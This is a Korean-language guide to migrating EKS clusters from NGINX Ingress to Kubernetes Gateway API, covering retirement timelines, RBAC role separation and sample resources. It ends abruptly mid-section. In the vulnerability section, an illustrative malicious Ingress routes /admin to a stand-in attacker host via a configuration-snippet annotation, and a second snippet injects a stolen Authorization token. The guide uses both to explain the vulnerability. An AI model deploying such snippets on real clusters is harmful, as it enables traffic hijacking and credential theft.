







import Tabs from '@theme/Tabs';
import TabItem from '@theme/TabItem';
import GatewayApiBenefits from '@site/src/components/GatewayApiBenefits';
import {
  DocumentStructureTable,
  RiskAssessmentTable,
  ArchitectureComparisonTable,
  RoleSeparationTable,
  GaStatusTable,
  FeatureComparisonMatrix,
  SolutionOverviewMatrix,
  SolutionSelectorCards,
  TieredGatewayDiagram,
  ScenarioRecommendationTable,
  FeatureMappingTable,
  DifficultyComparisonTable,
  AwsCostTable,
  OpenSourceCostTable,
  CostComparisonTable,
  MigrationFeatureMappingTable,
  TroubleshootingTable,
  RouteRecommendationTable,
  RoadmapTimeline,
} from '@site/src/components/GatewayApiTables';

# Gateway API 도입 가이드

> **📌 기준 버전**: Gateway API v1.5.1, Cilium v1.19.0, EKS 1.33+, AWS LBC v3.0.0, Envoy Gateway v1.7.0

> 📅 **작성일**: 2025-02-12 | **수정일**: 2026-06-17 | ⏱️ **읽는 시간**: 약 13분

## 1. 개요

Kubernetes 트래픽 관리는 두 가지 동인으로 Gateway API로 수렴하고 있습니다.

**첫째, NGINX Ingress Controller의 은퇴(Retirement)입니다.** 2026년 3월 공식 EOL(End-of-Life)로 보안 패치가 중단되며, Ingress API 자체의 구조적 한계(어노테이션 기반 확장, 역할 분리 부재)가 드러났습니다. 이로써 Gateway API로의 전환은 선택이 아닌 필수가 되었습니다.

**둘째, Agentic 워크로드를 위한 티어드 게이트웨이(Tiered Gateway)의 부상입니다.** LLM 추론과 에이전트 트래픽은 일반 웹/API와 요구사항이 다릅니다. 토큰 단위 과금·속도 제한, 모델·프로바이더 라우팅, KV 캐시 인지 라우팅, 프롬프트/응답 가드레일, 추론 Pod에 대한 부하 분산이 필요합니다. 이를 단일 게이트웨이로 처리하기보다, **북-남(North-South) 트래픽을 받는 범용 Gateway API 계층**과 **추론 트래픽을 전담하는 추론 게이트웨이(Inference Gateway) 계층**으로 나누는 2-Tier 구조가 표준으로 자리잡고 있습니다. Gateway API와 그 위의 [Gateway API Inference Extension](https://gateway-api-inference-extension.sigs.k8s.io/)이 이 티어드 모델의 공통 기반입니다.

이 가이드는 Gateway API의 아키텍처 이해부터 6개 주요 구현체(AWS LBC v3, Cilium, NGINX Gateway Fabric, Envoy Gateway, kGateway, Kong) 비교, Cilium ENI 모드 심화 구성, 단계별 마이그레이션 실행 전략, 성능 벤치마크 계획까지 포괄합니다. Agentic 워크로드를 위한 추론 게이트웨이 계층의 상세 구성은 [에이전틱 AI 플랫폼 — 추론 게이트웨이 레퍼런스](/docs/agentic-ai-platform/reference-architecture/inference-gateway)로 연결됩니다.

:::tip 범용 Gateway vs 추론 게이트웨이 — 어디를 읽어야 하나
- **북-남 트래픽·NGINX Ingress 대체·일반 API 라우팅**을 설계한다면 → 이 문서(범용 Gateway API 계층)
- **LLM 추론 Pod 라우팅·KV 캐시 인지 분산·모델 엔드포인트 관리**를 설계한다면 → [추론 게이트웨이 레퍼런스](/docs/agentic-ai-platform/reference-architecture/inference-gateway)
- 대부분의 Agentic 플랫폼은 **두 계층을 함께** 사용합니다. 이 문서의 섹션 4 비교표가 두 계층을 어떤 솔루션 조합으로 채울지 판단하는 출발점입니다.
:::

### 1.1 이 문서의 대상

- **NGINX Ingress Controller를 운영 중인 EKS 클러스터 관리자**: EOL 대응 전략 수립
- **Agentic AI 플랫폼을 구축하는 플랫폼 엔지니어**: 범용 게이트웨이 + 추론 게이트웨이 2-Tier 설계
- **Gateway API 마이그레이션을 계획 중인 플랫폼 엔지니어**: 기술 선정 및 PoC 수행
- **트래픽 관리 아키텍처 현대화를 검토 중인 아키텍트**: 장기 로드맵 설계
- **Cilium ENI 모드와 Gateway API 통합을 고려하는 네트워크 엔지니어**: eBPF 기반 고성능 네트워킹

### 1.2 티어드 게이트웨이 한눈에 보기

<TieredGatewayDiagram />

### 1.3 문서 구성

<DocumentStructureTable />

:::info 읽기 전략
- **빠른 이해**: 섹션 1-3, 6 (약 10분)
- **기술 선정**: 섹션 1-4, 6 (약 20분)
- **전체 마이그레이션**: 전체 문서 + 하위 문서 (약 25분)
:::

---

## 2. NGINX Ingress Controller Retirement — 왜 전환이 필수인가

### 2.1 EOL 타임라인



**주요 이벤트 상세:**

- **2025년 3월**: IngressNightmare (CVE-2025-1974) 발견 — Snippets 어노테이션을 통한 임의 NGINX 설정 주입 취약점으로 Kubernetes SIG Network의 retirement 논의가 가속화됨
- **2025년 11월**: Kubernetes SIG Network에서 NGINX Ingress Controller의 공식 retirement 발표. 유지보수 인력 부족(1-2명의 메인테이너)과 Gateway API 성숙도를 주요 이유로 명시
- **2026년 3월**: 공식 EOL — 보안 패치 및 버그 수정 완전 중단. 이후 운영 환경 사용 시 컴플라이언스 위반 가능성

:::danger 필수 대응 사항
**2026년 3월 이후 NGINX Ingress Controller 사용 시 보안 취약점 패치가 제공되지 않습니다.** PCI-DSS, SOC 2, ISO 27001 등 보안 인증 유지를 위해서는 반드시 Gateway API 기반 솔루션으로 전환해야 합니다.
:::

### 2.2 보안 취약점 분석

**IngressNightmare (CVE-2025-1974) 공격 시나리오:**

<Tabs>
  <TabItem value="attack-overview" label="공격 개요" default>

  

  *Kubernetes 클러스터 내 Ingress NGINX Controller를 대상으로 한 비인증 원격 코드 실행(RCE) 공격 벡터. 외부 및 내부 공격자가 Malicious Admission Review를 통해 컨트롤러 Pod를 장악하고, 클러스터 내 전체 Pod에 접근 가능. (Source: [Wiz Research](https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities))*

  </TabItem>
  <TabItem value="architecture" label="컨트롤러 아키텍처">

  

  *Ingress NGINX Controller Pod 내부 아키텍처. Admission Webhook이 설정 검증 과정에서 공격자의 악성 설정을 NGINX에 주입하는 경로가 CVE-2025-1974의 핵심 공격 표면. (Source: [Wiz Research](https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities))*

  </TabItem>
  <TabItem value="exploit-code" label="공격 코드 예시">

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: malicious-ingress
  annotations:
    # 공격자가 임의의 NGINX 설정을 주입
    nginx.ingress.kubernetes.io/configuration-snippet: |
      location /admin {
        proxy_pass http://malicious-backend.attacker.com;
        # 인증 우회, 데이터 탈취, 백도어 설치 가능
      }
spec:
  ingressClassName: nginx
  rules:
  - host: production-api.example.com
    http:
      paths:
      - path: /
        pathType: Prefix
        backend:
          service:
            name: production-service
            port:
              number: 80
```

  </TabItem>
</Tabs>

**위험도 평가:**

<RiskAssessmentTable />

:::warning 현재 운영 중이라면
기존 NGINX Ingress 환경에서는 `nginx.ingress.kubernetes.io/configuration-snippet` 및 `nginx.ingress.kubernetes.io/server-snippet` 어노테이션 사용을 즉시 금지하는 admission controller 정책 적용을 권장합니다.
:::

### 2.3 취약점의 구조적 해결을 위한 Gateway API 도입

Gateway API는 NGINX Ingress의 구조적 취약점을 근본적으로 해결합니다.

<ArchitectureComparisonTable />

<Tabs>
<TabItem value="nginx" label="❌ NGINX Ingress 취약점" default>

**1. Configuration Snippet 주입 공격**

NGINX Ingress는 annotations에 임의 문자열을 주입할 수 있어 심각한 보안 위험을 초래합니다:



```yaml
# ❌ NGINX Ingress — 임의 문자열 주입 가능
annotations:
  nginx.ingress.kubernetes.io/configuration-snippet: |
    # 인접 서비스의 자격 증명 탈취 가능 (CVE-2021-25742)
    proxy_set_header Authorization "stolen-token";
```

**2. 단일 리소스에 모든 권한 집중**

- Ingress 리소스 하나에 라우팅, TLS, 보안, 확장 설정이 혼재
- 어노테이션 단위 RBAC 분리가 불가능 — 전체 Ingress 권한 또는 무권한
- 개발자가 라우팅만 수정하려 해도 TLS/보안 설정 변경 권한까지 보유

**3. 벤더 어노테이션 의존**

- 표준에 없는 기능은 벤더 고유 어노테이션으로 추가 → **이식성 상실**
- 어노테이션 간 충돌 시 디버깅 어려움
- 100+ 벤더 어노테이션 관리 복잡성 증가

이러한 구조적 문제로 인해 NGINX Ingress는 프로덕션 보안 요구사항을 충족하기 어렵습니다.

</TabItem>
<TabItem value="gateway" label="✅ Gateway API 구조적 해결">

**1. 3-Tier 역할 분리로 Snippets 원천 차단**



각 팀은 자신의 권한 범위 내에서만 리소스를 관리 — 임의 설정 주입 경로가 원천 차단됩니다.

```yaml
# 인프라 팀: GatewayClass 관리 (클러스터 레벨 권한)
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: infrastructure-team
rules:
- apiGroups: ["gateway.networking.k8s.io"]
  resources: ["gatewayclasses"]
  verbs: ["create", "update", "delete"]
---
# 플랫폼 팀: Gateway 관리 (네임스페이스 레벨 권한)
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: platform-team
  namespace: platform-system
rules:
- apiGroups: ["gateway.networking.k8s.io"]
  resources: ["gateways"]
  verbs: ["create", "update", "delete"]
---
# 애플리케이션 팀: HTTPRoute만 관리 (라우팅 규칙만 제어)
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: app-team
  namespace: app-namespace
rules:
- apiGroups: ["gateway.networking.k8s.io"]
  resources: ["httproutes"]
  verbs: ["create", "update", "delete"]
```

**2. CRD 스키마 기반 구조적 검증**

OpenAPI 스키마로 모든 필드를 사전 정의하여 임의 설정 주입이 원천적으로 불가능합니다:



```yaml
# ✅ Gateway API — 스키마 검증된 필드만 사용
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
spec:
  rules:
  - matches:
    - path:
        type: PathPrefix
        value: /api
    filters:
    - type: RequestHeaderModifier  # 사전 정의된 필터만 사용 가능
      requestHeaderModifier:
        add:
        - name: X-Custom-Header
          value: production
```

**3. Policy Attachment 패턴으로 안전한 확장**

확장 기능을 별도의 Policy 리소스로 분리하여 RBAC으로 접근을 제어합니다:



```yaml
# Cilium의 CiliumNetworkPolicy로 L7 보안 정책 적용
apiVersion: cilium.io/v2
kind: CiliumNetworkPolicy
metadata:
  name: api-rate-limiting
spec:
  endpointSelector:
    matchLabels:
      app: api-gateway
  ingress:
  - fromEndpoints:
    - matchLabels:
        role: frontend
    toPorts:
    - ports:
      - port: "80"
        protocol: TCP
      rules:
        http:
        - method: "GET"
          path: "/api/.*"
          rateLimit:
            requestsPerSecond: 100
```

</TabItem>
</Tabs>

:::info 활발한 커뮤니티 지원
- **15개 이상의 프로덕션 구현체**: AWS, Google Cloud, Cilium, Envoy, NGINX, Istio 등
- **분기별 정규 릴리스**: v1.4.0 기준 GA 리소스 포함
- **CNCF 공식 프로젝트**: Kubernetes SIG Network 주도 개발
:::

---

## 3. Gateway API — 차세대 트래픽 관리 표준

### 3.1 Gateway API 아키텍처


*출처: [Kubernetes Gateway API 공식 문서](https://gateway-api.sigs.k8s.io/) — 3개의 역할(Infrastructure Provider, Cluster Operator, Application Developer)이 각각 GatewayClass, Gateway, HTTPRoute를 관리*

:::tip 상세 비교
NGINX Ingress와 Gateway API의 아키텍처 비교는 [2.3 취약점의 구조적 해결을 위한 Gateway API 도입](#23-취약점의-구조적-해결을-위한-gateway-api-도입)에서 탭별로 확인할 수 있습니다.
:::

### 3.2 3-Tier 리소스 모델

Gateway API는 다음과 같은 계층 구조로 책임을 분리합니다:

<Tabs>
  <TabItem value="overview" label="역할 개요" default>

  

  *출처: [Kubernetes Gateway API 공식 문서](https://gateway-api.sigs.k8s.io/concepts/api-overview/) — GatewayClass → Gateway → xRoute → Service 계층 구조*

  <RoleSeparationTable />

  </TabItem>
  <TabItem value="infra" label="인프라 팀 (GatewayClass)">

  **인프라 팀: GatewayClass 전용 권한 (ClusterRole)**

  GatewayClass는 클러스터 스코프 리소스로, 인프라 팀만 생성/변경할 수 있습니다. 컨트롤러 선택과 전역 정책을 담당합니다.

  ```yaml
  apiVersion: rbac.authorization.k8s.io/v1
  kind: ClusterRole
  metadata:
    name: infrastructure-gateway-manager
  rules:
  - apiGroups: ["gateway.networking.k8s.io"]
    resources: ["gatewayclasses"]
    verbs: ["get", "list", "watch", "create", "update", "patch", "delete"]
  ```

  </TabItem>
  <TabItem value="platform" label="플랫폼 팀 (Gateway)">

  **플랫폼 팀: Gateway 관리 권한 (Role — 네임스페이스 스코프)**

  Gateway는 네임스페이스 스코프 리소스로, 플랫폼 팀이 리스너 구성, TLS 인증서, 로드밸런서 설정을 관리합니다.

  ```yaml
  apiVersion: rbac.authorization.k8s.io/v1
  kind: Role
  metadata:
    name: platform-gateway-manager
    namespace: gateway-system
  rules:
  - apiGroups: ["gateway.networking.k8s.io"]
    resources: ["gateways"]
    verbs: ["get", "list", "watch", "create", "update", "patch", "delete"]
  - apiGroups: [""]
    resources: ["secrets"]  # TLS 인증서 관리
    verbs: ["get", "list"]
  ```

  </TabItem>
  <TabItem value="app" label="앱 팀 (HTTPRoute)">

  **애플리케이션 팀: HTTPRoute만 관리 (Role — 네임스페이스 스코프)**

  애플리케이션 팀은 자신의 네임스페이스에서 HTTPRoute와 ReferenceGrant만 관리합니다. GatewayClass나 Gateway에는 접근할 수 없습니다.

  ```yaml
  apiVersion: rbac.authorization.k8s.io/v1
  kind: Role
  metadata:
    name: app-route-manager
    namespace: production-app
  rules:
  - apiGroups: ["gateway.networking.k8s.io"]
    resources: ["httproutes", "referencegrants"]
    verbs: ["get", "list", "watch", "create", "update", "patch", "delete"]
  - apiGroups: [""]
    resources: ["services"]
    verbs: ["get", "list"]
  ```

  </TabItem>
</Tabs>

### 3.3 GA 현황 (v1.4.0)

Gateway API는 Standard Channel과 Experimental Channel로 나뉘며, 리소스별 성숙도가 다릅니다:

<GaStatusTable />

:::warning Experimental 채널 주의사항
Alpha 상태의 리소스는 **API 호환성 보장이 없으며**, 마이너 버전 업그레이드 시 필드 변경 또는 삭제 가능성이 있습니다. 프로덕션 환경에서는 Standard 채널의 GA/Beta 리소스만 사용하는 것을 권장합니다.
:::

### 3.4 핵심 이점

Gateway API의 6가지 핵심 이점을 시각적 다이어그램과 YAML 예제로 살펴봅니다.

<GatewayApiBenefits />

### 3.5 기본 리소스 예제

실제 프로덕션 환경에서 사용하는 Gateway API 리소스 배포 순서입니다:

<Tabs>
  <TabItem value="overview" label="배포 흐름도" default>



Gateway API 리소스는 역할별로 분리 배포됩니다. 인프라 팀이 GatewayClass를, 플랫폼 팀이 Gateway를, 앱 팀이 HTTPRoute를 각각 관리합니다.

  </TabItem>
  <TabItem value="step1" label="Step 1: GatewayClass">

**GatewayClass 정의 (인프라 팀)**

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: GatewayClass
metadata:
  name: aws-network-load-balancer
spec:
  controllerName: aws.gateway.networking.k8s.io
  description: "AWS Network Load Balancer with PrivateLink support"
  parametersRef:
    group: elbv2.k8s.aws
    kind: TargetGroupPolicy
    name: nlb-performance-profile
```

  </TabItem>
  <TabItem value="step2" label="Step 2: Gateway">

**Gateway 생성 (플랫폼 팀)**

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: Gateway
metadata:
  name: production-gateway
  namespace: gateway-system
  annotations:
    # AWS NLB 전용 어노테이션
    service.beta.kubernetes.io/aws-load-balancer-type: "nlb"
    service.beta.kubernetes.io/aws-load-balancer-scheme: "internet-facing"
    service.beta.kubernetes.io/aws-load-balancer-cross-zone-load-balancing-enabled: "true"
    service.beta.kubernetes.io/aws-load-balancer-nlb-target-type: "ip"
spec:
  gatewayClassName: aws-network-load-balancer
  listeners:
  # HTTP Listener (자동 HTTPS 리다이렉트)
  - name: http
    protocol: HTTP
    port: 80

  # HTTPS Listener (ACM 인증서)
  - name: https
    protocol: HTTPS
    port: 443
    tls:
      mode: Terminate
      certificateRefs:
      - kind: Secret
        name: acm-certificate
        namespace: gateway-system
    allowedRoutes:
      namespaces:
        from: All  # 모든 네임스페이스의 HTTPRoute 허용
```

  </TabItem>
  <TabItem value="step3" label="Step 3: HTTPRoute">

**HTTPRoute 설정 (애플리케이션 팀)**

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: backend-api
  namespace: production-app
spec:
  parentRefs:
  - name: production-gateway
    namespace: gateway-system
    sectionName: https

  hostnames:
  - "api.example.com"

  rules:
  # Canary 배포 (90% v1, 10% v2)
  - matches:
    - path:
        type: PathPrefix
        value: /api
    backendRefs:
    - name: backend-v1
      port: 8080
      weight: 90
    - name: backend-v2
      port: 8080
      weight: 10

    filters:
    # 헤더 추가
    - type: RequestHeaderModifier
      requestHeaderModifier:
        add:
        - name: X-Backend-Version
          value: canary

    # URL Rewrite
    - type: URLRewrite
      urlRewrite:
        path:
          type: ReplacePrefixMatch
          replacePrefixMatch: /v1/api
```

  </TabItem>
  <TabItem value="step4" label="Step 4: ReferenceGrant">

**ReferenceGrant (크로스 네임스페이스 참조)**

```yaml
# gateway-system 네임스페이스의 Gateway를 다른 네임스페이스에서 참조 허용
apiVersion: gateway.networking.k8s.io/v1beta1
kind: ReferenceGrant
metadata:
  name: allow-httproutes-from-all
  namespace: gateway-system
spec:
  from:
  - group: gateway.networking.k8s.io
    kind: HTTPRoute
    namespace: production-app
  to:
  - group: gateway.networking.k8s.io
    kind: Gateway
    name: production-gateway
```

  </TabItem>
  <TabItem value="step5" label="Step 5: 검증">

**배포 및 검증**

```bash
# 리소스 배포
kubectl apply -f gatewayclass.yaml
kubectl apply -f gateway.yaml
kubectl apply -f referencegrant.yaml
kubectl apply -f httproute.yaml

# Gateway 상태 확인
kubectl get gateway production-gateway -n gateway-system
# NAME                  CLASS                        ADDRESS          PROGRAMMED   AGE
# production-gateway    aws-network-load-balancer    a1b2c3.elb.aws   True         5m

# HTTPRoute 상태 확인
kubectl get httproute backend-api -n production-app
# NAME          HOSTNAMES              AGE
# backend-api   ["api.example.com"]    2m

# Gateway 주소 확인
kubectl get gateway production-gateway -n gateway-system \
  -o jsonpath='{.status.addresses[0].value}'

# 트래픽 테스트 (Canary 비율 확인)
for i in {1..100}; do
  curl -s https://api.example.com/api/health | jq -r '.version'
done | sort | uniq -c
# 출력 예시:
#   90 v1
#   10 v2
```

  </TabItem>
</Tabs>

:::tip 네이티브 Canary 배포
